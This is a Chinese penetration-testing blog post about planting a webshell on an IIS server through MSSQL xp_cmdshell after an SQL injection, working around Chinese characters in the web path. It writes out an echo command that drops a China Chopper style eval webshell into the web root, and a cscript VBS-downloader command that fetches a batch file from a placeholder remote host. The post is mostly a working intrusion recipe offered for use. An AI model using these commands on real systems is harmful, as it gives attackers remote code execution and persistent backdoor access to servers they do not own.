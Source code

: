 +++
title = "MSSQL遇中文转Unicode编码无法正常写入Shell"
author = "Hzllaga"
date =2018-07-23
description = "前几天练手，戳到一个SQL注入，SQL权限是sa按道理来说一般到这里就终止渗透了，但是因为是内网，想继续玩还是得有个Shell。在SQLMAP中如果获取一个OS-Shell的时候需要特定的SQL注入类型，可惜并不支持。"
categories = ["转载"]
tags = ["MSSQL","SQL注入"]
+++
![](https://cdn.wtfsec.org/img/20200223164802.jpg)

前几天练手，戳到一个SQL注入，SQL权限是sa按道理来说一般到这里就终止渗透了，但是因为是内网，想继续玩还是得有个Shell。在SQLMAP中如果获取一个OS-Shell的时候需要特定的SQL注入类型，可惜并不支持。

在系统后台中发现KindEditor没有洞。系统是2008 IIS7想来想去执行xp_cmdshell应该是没有问题的，应该只是说SQLMAP的问题，也没深入去研究SQLMAP。转Pangolin处理，执行cmd倒是没问题了，但是如果是在dir列目录到Web目录的时候直接读取不到，一头雾水。。

后在Pangolin里测试的时候执行了 `echo 官网勿删 > c:\w.txt` 随后 `type c:\w.txt` 返回 `&#23448;&#32593;&#21247;&#21024;` 既然有中文路径写Shell有一定问题，那换一种姿势。

我们知道Web的路径在哪里了，剩下就是如何把Shell写到Web目录里边去，只有MSSQL执行`xp_cmdshell`的话，其实很简单的直接用下载者就可以了，那么我测试了一下远程下载文件下载失败，写入文件可以。那自己手动写一个vbs下载者就可以了。

首先注意一点，在写下载者的时候里面不能出现任何中文字符，也就是说我们不能直接下载一个Shell到Web目录中。

找web目录可以参考这里：[echo-一句话写入读IIS配置vbs脚本](../echo-一句话写入读IIS配置vbs脚本/)

写入下载者参考这里：[echo一句话写入vbs下载者](../echo-一句话写入vbs下载者/)

`远程文件`中的内容：

{{< highlight vbs >}}
echo ^<%@ Page Language="Jscript"%^>^<%%eval(Request.Item["chopper"],"unsafe");%^> > x:\wwwroot(官网勿删)\x.aspx
{{< / highlight  >}}
然后运行
{{< highlight vbs >}}
cscript C:\get.vbs http://xxx.com/xxx.bat C:\xxx.bat
{{< / highlight  >}}
然后再运行那个批处理，就会发现webshell已经躺在web目录里面了。